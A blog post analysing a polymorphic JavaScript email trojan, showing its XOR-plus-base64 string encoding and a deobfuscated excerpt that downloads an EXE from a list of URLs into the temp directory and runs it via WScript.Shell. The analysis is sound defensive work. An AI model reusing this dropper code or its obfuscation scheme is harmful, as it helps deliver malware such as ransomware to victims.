 ```yaml
---
layout: post
title: "Polymorphic Javascript malware"
thumbnail: mosquito-240.jpg
date: 2016-02-18
---
```


Recently I received two similar e-mails with viruses, both using encoded Javascript. In this post we look into how the Javascript is encoded and what it does when it is run.

The e-mail described that I received a remittance and that I should open the attachment to claim my money. The attachment was a ZIP file named `WU6533175781.zip`, containing a ZIP file named file.zip, containing a Javascript file named [`invoice_Ir1vkp.js`](https://github.com/Sjord/encoded-js-trojan/blob/orig/invoice_Ir1vkp.js). The file is probably zipped twice to get around some antivirus software. Also, the Javascript is encoded:


    var insensatePtK = decode('"AD4qHg9EOH0qJwgvWw=="');
    var revelryk8e = decode('"Gj4RISoGYgs0AyUXY2Y="');
    …
    if (riledjg) {
        engageegd[toutfVe](wandervwY + Math.pow(2, 19));
    }

As you can see both the variable names and the string literals are encoded. The `decode` function is defined in the same file. It base64-decodes the string and XORs it with a cipher. The code to base64-decode is copied literaly from [webtoolkit.info](http://www.webtoolkit.info/javascript_base64.html).

    var decode = function (packedText) {
        var cipher ="WmIlf4LSyOmC766Y";
        …
        var text = Base64.decode(packedText);

        var cipherLength = cipher.length;
        var result = "";
        for (var i = 0; i < text.length; i++) {
            result += String.fromCharCode(text.charCodeAt(i) ^ cipher.charCodeAt(i % cipherLength));
        }
        return result;
    };

Now, what is interesting is that the two mails that I received had basically the same Javascript, encoded differently. So the structure and the decode function was the same, but the cipher, the string literals and the variable names differed. I assume this is to make it harder for virus scanners to detect this thing. It is remarkable then that the `decode` function itself is not obfuscated, since that would be an easy marker to recognize this malware.

Because we have the `decode` function it is easy to decode all the strings in the script, and we can rename the variables to see what [the code](https://github.com/Sjord/encoded-js-trojan/blob/master/invoice_Ir1vkp.js) really does:

    var wscriptShell = "WScript.Shell";
    var shellObject = WScript.CreateObject(wscriptShell);
    …        
    for (var i = 0; i < urls.length; i++) {
        try {
            var url = urls[i];
            httpObject.open(get, url, false);
            httpObject.send();
            if (httpObject.status == statusOk) {
                try {
                    streamObject.open();
                    streamObject.type = 1;
                    streamObject.write(httpObject.responseBody);
                    if (streamObject.size > minSize) {
                        i = urls.length;
                        streamObject.position = 0;
                        streamObject.saveToFile(exePath, 2);
                        success = true;
                    }
                } finally {
                    streamObject.close();
                }
            }
        } catch (ignored) {}
    }
    if (success) {
        shellObject[exec](tempDir + Math.pow(2, 19));
    }

Apparently it downloads an EXE into the temp directory, and runs it. I assume to install the latest CryptoLocker variation. Normally in a webbrowser you can't download things and run EXE's. However, this script is sent as an attachment and meant to be run from the disk and not from the internet, which gives it permissions to do these things.

As you can see it takes extra effort to obfuscate the EXE filename, using 524288 at one place and `Math.pow(2, 19)`, which is also 524288, when actually running the file. It is a pretty simple piece of Javascript, encoded in a simple way. However, this makes it possible to change the code in each spam campaign or perhaps even each e-mail, which makes it hard to block by virus scanners.
